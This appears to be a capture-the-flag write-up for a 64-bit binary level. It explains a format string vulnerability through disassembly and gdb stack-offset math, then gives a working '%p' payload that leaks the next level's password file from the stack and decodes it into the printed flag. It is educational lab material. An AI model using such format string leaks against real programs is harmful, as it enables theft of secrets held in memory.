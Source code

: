 ## LEVEL 02
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level02.asm) and the [source file](./src/level02.c). This README only contains the most important parts to solve the level.
---
### Security

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
#### For this level, the NX security is disabled, so we can use overflow attacks again.
---

The level represents another step in reverse engineering since we are now dealing with a 64-bit program. This means we have to utilize 64-bit registers and instructions. Although this difference is not particularly significant for this level, it introduces new register names and instructions. However, it doesn't matter because we will apply the same automatisms as in the previous levels.

First, we need to identify a vulnerability within the code. If we examine the `main` function, we come across this interesting segment:

```shell
    0x0000000000400a96 <+642>:	lea    -0x70(%rbp),%rax
    0x0000000000400a9a <+646>:	mov    %rax,%rdi
    0x0000000000400a9d <+649>:	mov    $0x0,%eax
    0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
```

As we can see below `rdi` is used to store the first argument for the next function called.

![register usage in 64bits](./.assert/register.png)

Perfect! So the program calls `printf` with a buffer located at -0x70(rbp) as its only argument. As we know, this indicates a format string vulnerability. Now, let's determine what this buffer is.

```shell
    0x00000000004009cd <+441>:	lea    -0x70(%rbp),%rax
    0x00000000004009d1 <+445>:	mov    $0x64,%esi
    0x00000000004009d6 <+450>:	mov    %rax,%rdi
    0x00000000004009d9 <+453>:	callq  0x4006f0 <fgets@plt>
```

As we observed in the chart mentioned earlier, `%rdi` represents the first argument and `%rsi` the second argument (in this case, `%esp` since the second argument is an `int`). Therefore, we can infer that `fgets` is called with the syntax `fgets(buffer, 100)`.

This indicates that we can write any desired content into the `buffer` and exploit it using the appropriate format string to read from and write to memory. Now, the remaining task is to understand how to utilize this vulnerability to obtain the flag.

```shell
    0x0000000000400898 <+132>:	mov    $0x400bb0,%edx
    0x000000000040089d <+137>:	mov    $0x400bb2,%eax
    0x00000000004008a2 <+142>:	mov    %rdx,%rsi
    0x00000000004008a5 <+145>:	mov    %rax,%rdi
    0x00000000004008a8 <+148>:	callq  0x400700 <fopen@plt>
    0x00000000004008ad <+153>:	mov    %rax,-0x8(%rbp)
    [...]
    0x00000000004008e6 <+210>:	lea    -0xa0(%rbp),%rax
    0x00000000004008ed <+217>:	mov    -0x8(%rbp),%rdx
    0x00000000004008f1 <+221>:	mov    %rdx,%rcx
    0x00000000004008f4 <+224>:	mov    $0x29,%edx
    0x00000000004008f9 <+229>:	mov    $0x1,%esi
    0x00000000004008fe <+234>:	mov    %rax,%rdi
    0x0000000000400901 <+237>:	callq  0x400690 <fread@plt>
```

Here is the second part of the code that interests me. What does this part do?

This part of the code opens the file `/home/users/level03/.pass` with read (`r`) permissions and reads 41 bytes from it. The obtained data is then stored inside a buffer located at -0xa0(rbp).

Perfect! Now that we have all the necessary information, let's proceed with exploiting this level.

This program takes two inputs, but the second input is useless in our case. So we know that the second input is empty.

Now we need to know how `printf` can read the buffer at -0xa0(rbp). To do this, we will use the `%p` format string argument. This format string allows us to print the memory. We just need to know how many `%p` we need to write to reach the address `-0xa0(rbp)`.

First we need to understand the way the arguments are passed in x64 program. In x32 program, the arguments are store at the bottom of the stack to be able to access them with a positive offset. In x64 program, the arguments are store in registers. If there are more than 6 arguments (RDI, RSI, RDX, RCX, R8, R9) on Linux, the remaining arguments are stored on the stack. So I have to pass 6 more `%p` to start to read the start.

Now we need to compute the lenght between `$rbp` and `-0xa0(rbp)`. To do this I will use gdb.

```shell
(gdb) x/x $rbp
0x7fffffffe570:	0x00000000
(gdb) x/x $rbp-0xa0
0x7fffffffe4d0:	0x00000000
(gdb) x/x $rsp
0x7fffffffe450:	0xffffe658
```
```
0x7fffffffe4d0 - 0x7fffffffe450 = 0x80
0x80 / 8 (because 64 bits) = 16
```

So we need to pass 16 + 6 `%p` to read the `-0xa0(rbp)` value, the second thing we need to notice is the length of the `.pass` file, it's 41 bytes. So we need to pass 41 / 8 = 5 `%p` to read the `.pass` file.

Let's try it.

```shell
$ (python -c 'print "%p "*27' ; python -c 'print ""') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe480 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe678 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil)  does not have access!
```

Perfect now we need to decode the hex value to get the flag.

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
<= REVERSE BYTES =>
4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348
<= CONVERT IN ASCII =>
Hh74RPnu Q9sa5JAE XgNWCqz7 sXGnh5J5 M9KfPg3H
```

So the flag is `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

---

*Source :*

*https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/*

*https://www.rapidtables.com/convert/number/hex-to-ascii.html*
